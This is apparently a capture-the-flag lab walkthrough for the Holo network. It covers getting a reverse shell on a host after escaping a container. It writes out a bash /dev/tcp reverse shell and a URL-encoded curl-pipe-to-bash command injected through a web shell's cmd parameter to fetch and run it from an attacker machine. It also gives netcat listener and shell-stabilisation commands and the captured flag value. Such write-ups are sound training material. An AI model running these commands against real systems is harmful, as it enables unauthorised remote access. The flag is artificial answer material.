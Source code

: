 
Now that you have escaped the container and have RCE on the host, you need to create a reverse shell and obtain a way to gain a stable shell onto the box.  

There are several ways to obtain a reverse shell on a box once you have RCE. Outlined below are a few of the most common methods used.  

- netcat
- bash
- python
- perl

For more information about various payloads and reverse shells, you can use check out these two resources. [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

In this task, we will be covering how to use a basic bash reverse shell along with URL encoding to drop a script directly into bash. Using URL encoding to our advantage, we can ease much pain when executing a payload as often special characters such as `&, ', !, ;, ?` will cause serious issues.  

To begin, we will create a simple payload by placing the below code into a `.sh` file.

`#!/bin/bash`   
`bash -i >& /dev/tcp/tun0ip/53 0>&1`

- The first line will declare that we are using the bash scripting language. 
- The second line is the payload itself. 

For more information about this payload, check out this explain shell, [https://explainshell.com/explain?cmd=bash+-i+>%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0>%261](https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0%3E%261).  

Now that you have the payload ready to go, you can start up a local web server on your attacking machine using either _http.server_ or _updog_ or _php_. You can find example usage for all three below.  

- `python3 -m http.server 80`
- `updog`
- `php -S 0.0.0.0:80`

Once you have a server started hosting the file, we can compile a command to execute the file. Find the command below.  

Unencoded command: `curl http://10.x.x.x:80/shellscript.sh|bash &`

As we have already mentioned, special characters can cause issues within URLs. To combat this, we can utilize URL encoding on any special characters. Find the encoded command below.

Encoded command: `curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26`

The above command is entirely ready to go. You will only need to change the IP address and the file name within the command; this does not require you to change any of the URL encoding present.

You can now start a listener using Netcat or Metasploit to catch your reverse shell once executed. Find commands below to start listeners.  

- `nc -lvnp 53`
or
- `use exploit/multi/handler`

Now that you have the full payload and execution command ready, you can use it and the RCE to gain a shell onto the box. Find the full command below.  

Command used: `curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26'`


---

# Your job

- Create a `shellscript.sh` file with the following code:
	`#!/bin/bash`
	`bash -i >& /dev/tcp/10.50.74.165/53 0>&1`

- Start up a local web server in the `shellscript.sh` directory on your attacking machine.
	`python3 -m http.server 80`

- On your attacking machine, start a listener using Netcat .
	`nc -lvnp 53`

- On the Reverse Shell you already have opened, run the following code:
	`curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.50.74.165%3A80%2Fshellscript.sh%7Cbash%20%26'`
	![[Task 19 - Going out with a SHEBANG!-20240919140944870.webp]]
- Stabilize the shell.
	`python3 -c 'import pty; pty.spawn("/bin/bash")'`

> [!INFO]
You have shell onto  L-SRV01.


---

## Flag on L-SRV01

- On the Reverse Shell go to `www-data@ip-10-200-95-33:/var/www$` and run:
	`cat user.txt`

	HOLO{3792d7d80c4dcabb8a533afddf06f666}

- Submit the user flag on Task 4, question 2.

**Next step:** [[Task 20 - Call me Mario, because I got all the bits]]
